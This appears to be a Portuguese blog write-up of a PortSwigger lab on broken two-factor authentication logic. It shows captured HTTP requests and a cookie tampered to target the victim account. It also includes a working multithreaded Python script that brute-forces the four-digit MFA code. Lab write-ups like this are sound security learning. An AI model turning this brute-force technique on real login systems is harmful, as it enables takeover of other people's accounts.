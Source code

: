 ```yaml
---
title: 2FA Broken Logic
date: 2024-03-23 19:35:00 +0300
categories: [anotacoes, web application security, weblogic]
tags: [anotacoes, web application security, weblogic]     # TAG names should always be lowercase
---
```



## PortSwigger Lab
![weblogic2](_site/assets/img/weblogic2.png)


## 2FA Broken Logic
- A autenticação de dois fatores deste laboratório é vulnerável devido à sua lógica falha. Para resolver o laboratório, precisamos acessar a página da conta do Carlos.
- credenciais: wiener/peter
- Nome de usuário da vítima:carlos
- Você também tem acesso ao servidor de e-mail para receber seu código de verificação 2FA.

**1** - Ao acessar o lab, com o Burp em execução, fiz login com a conta wiener e analisei o processo de verificação 2FA. Observamos que na requisição POST /login2 onde o paramatro verify é utilizado para determinar qual conta do usuário está sendo acessada.
```bash
POST /login HTTP/2
Host: example.web-security-academy.net
Cookie: verify=wiener; session=yoursession
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://example.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://example.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7

username=wiener&password=peter
```

Após a analise, sai da conta wiener e enviei uma requisição GET /login2, alterando o parametro verify para carlos, dessa forma um código 2FA temporário foi gerado para o usuário carlos. 

```bash
GET /login2 HTTP/2
Host: example.web-security-academy.net
Cookie: verify=carlos; session=yoursession
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://example.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7
```
Em seguida fui até a página de login, digitei o usuário e senha do usuário wiener e coloquei um código inválido. Por fim enviei uma requisição POST /login, definindo o parametro verify=carlos e adicionando um payload ao parametro mfa-code que também foi encontrado no inicio da análise. Utilizando o Intruder no Burp Suite é possível fazer um brute-force para descobrir o código 2FA de 4 digitos porém esse processo pode ser muito lento se você não tem a versão profissional. Por isso fiz um script em Python que trabalha com ThreadPoolExecutor para enviar diversas requisições simultaneas, facilitando o processo de descoberta e evitando expirar a sessão do laboratório, além de identificar quando o código da resposta da solicitação for 302 e analisando o tamanho de cada resposta em bytes:
```python
import requests
import concurrent.futures

url = 'https://example.web-security-academy.net/login2'
headers = {
    'Host': 'example.web-security-academy.net',
    'Cookie': 'verify=carlos; session=yoursession',
    'Cache-Control': 'max-age=0',
    'Sec-Ch-Ua': '"Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36',
    'Origin': 'https://example.web-security-academy.net',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Referer': 'https://example.web-security-academy.net/login2',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7',
    'Connection': 'close'
}

def send_request(mfa_code):
    payload = {'mfa-code': f'{mfa_code:04d}'}
    response = requests.post(url, headers=headers, data=payload)
    if response.status_code == 302:
        print(f'Success! Code is: {mfa_code:04d}, Response size: {len(response.content)} bytes')
    else:
        print(f'Tried code {mfa_code:04d}, Status code: {response.status_code}, Response size: {len(response.content)} bytes')

# Define a função principal para execução concorrente
def main():
    # Usando ThreadPoolExecutor para criar várias threads
    with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
        # Enviar solicitações para códigos MFA de 9999 a 0000
        executor.map(send_request, range(9999, -1, -1))

if __name__ == "__main__":
    main()
```

Após a execução do script, descobrimos o valor do código 2FA e conseguimos completar o laboratório obtendo acesso a conta do Carlos.

![weblogic1](_site/assets/img/weblogic1.png)


- Referências: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic
